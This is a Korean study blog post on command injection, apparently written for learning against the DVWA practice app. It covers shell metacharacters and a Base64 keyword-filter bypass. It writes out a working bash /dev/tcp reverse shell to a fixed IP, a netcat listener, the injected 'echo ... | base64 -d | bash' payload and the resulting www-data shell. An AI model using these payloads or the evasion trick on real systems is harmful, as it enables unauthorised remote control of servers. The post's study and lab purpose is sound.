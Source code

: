 ```yaml
---
layout: post
title: "명령어 인젝션 공부"
date: 2025-09-03 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

명령어 인젝션은 사용자의 입력값이 서버의 쉘 명령어의 일부로 검증 없이 전달될 때 발생하는 취약점이다. 공격자는 쉘의 특수문자(Metacharacters)를 주입하여 원래의 명령어를 종료시키거나 변조하고 자신이 원하는 새로운 명령어를 실행시킬 수 있다.

---

### 2. 주요 공격 기법

공격의 핵심은 쉘 메타 문자를 사용하여 명령어의 흐름을 제어하는 것이다.

*   **`;` (Semicolon):** 앞 명령어의 성공 여부와 관계없이 다음 명령어를 순차적으로 실행한다.
    ```
    ping 127.0.0.1; whoami
    ```
*   **`&&` (Ampersand):** 앞 명령어가 성공적으로 실행되었을 때만 다음 명령어를 실행한다.
    ```
    ping 127.0.0.1 && whoami
    ```
*   **`|` (Pipe):** 앞 명령어의 표준 출력(stdout)을 다음 명령어의 표준 입력(stdin)으로 전달한다.

---

### 3. 필터링 우회 기법

#### ***키워드 필터링 우회 (Base64 인코딩)***

`cat`, `ls`, `bash` 등 특정 명령어가 서버에서 차단될 경우,  
공격자는 명령어를 **Base64로 인코딩**해 필터를 우회할 수 있다.  
서버 측에서 이를 디코딩 후 실행하면, 차단되지 않은 상태로 명령어가 수행된다.

#### ***공격 흐름 (5단계)***

***1. 공격자: 리버스 셸 페이로드 인코딩***  
로컬 머신에서 실행할 명령어를 Base64로 인코딩한다.

```bash
$ echo "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1" | base64 -w0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuOS4yMDAuMTIvNDQ0NCAwPiYx
```

>  인코딩된 문자열(`YmFzaC...`)을 복사해 둔다.

---

***2. 공격자: 리스너 준비***
Netcat으로 4444 포트에서 연결을 기다린다.

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
```

---

***3. 공격: DVWA에 페이로드 삽입***
DVWA의 `Command Injection` 입력란에 다음을 전달한다.

```text
127.0.0.1; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuOS4yMDAuMTIvNDQ0NCAwPiYx | base64 -d | bash
```

- `127.0.0.1`은 원래 ping 명령의 대상 (정상 요청처럼 위장)  
- `;` 이후가 실제 공격 페이로드  
- `echo ... | base64 -d | bash` → 인코딩된 명령어를 디코딩 후 실행

---

***4. 서버: 명령어 실행***
서버는 내부적으로 다음을 수행한다:

```bash
# 1. echo로 인코딩 문자열 출력
# 2. base64 -d로 디코딩 → "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1"
# 3. 그 결과를 bash에 파이프 → 리버스 셸 연결 시도
```

---

***5. 공격 성공: 리버스 셸 획득***  
공격자의 Netcat 터미널에 연결이 수립되고, 쉘 접근이 가능해진다.

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.9.200.12] from (UNKNOWN) [192.9.200.11] 38912
www-data@dvwa:/var/www/html$
www-data@dvwa:/var/www/html$ whoami
www-data
```

>  이 시점에서 공격자는 서버의 `www-data` 권한으로 명령어를 자유롭게 실행할 수 있다.

---

### 왜 이 방식이 효과적인가?

- ***필터링 회피***: `bash`, `/dev/tcp` 같은 키워드가 직접 전달되지 않음  
- ***유연성***: 어떤 명령어든 Base64로 감싸 전달 가능  
- ***실전 적용***: `A01:2021` 보고서에서도 동일 기법으로 서버 제어권 확보

<hr class="short-rule">